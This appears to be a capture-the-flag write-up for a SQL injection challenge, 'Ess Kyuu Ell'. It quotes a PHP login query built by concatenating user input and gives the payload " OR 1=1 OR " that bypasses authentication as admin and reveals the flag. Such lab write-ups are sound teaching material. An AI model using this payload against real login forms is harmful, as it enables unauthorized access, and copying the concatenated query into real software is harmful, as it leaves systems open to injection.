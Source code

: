 #Ess Kyuu Ell(20)
##We let Phil in accounting take this one. We had higher hopes for him…
http://159.203.217.155/Injection1/

Simple injection, the source code reveals the query to be:
```php
$query = 'SELECT * FROM Injection1 WHERE username="'.$uname.'" AND password="'.$pswd.'";';
```
Furthermore, the authentication php script has the line:
```php
if ($row["username"] === "admin") {
      echo '<p>Your flag is: '.$row["flag"].'</p>';
    }
```
With this information we can put 'admin' into the username box and @" OR 1=1 OR "'@ (@ symbol used to indicate beginning and end of input to avoid confusion)
This returns the page:

#Welcome!

##Your flag is: phil_should_stick_to_banking

flag: phil_should_stick_to_banking
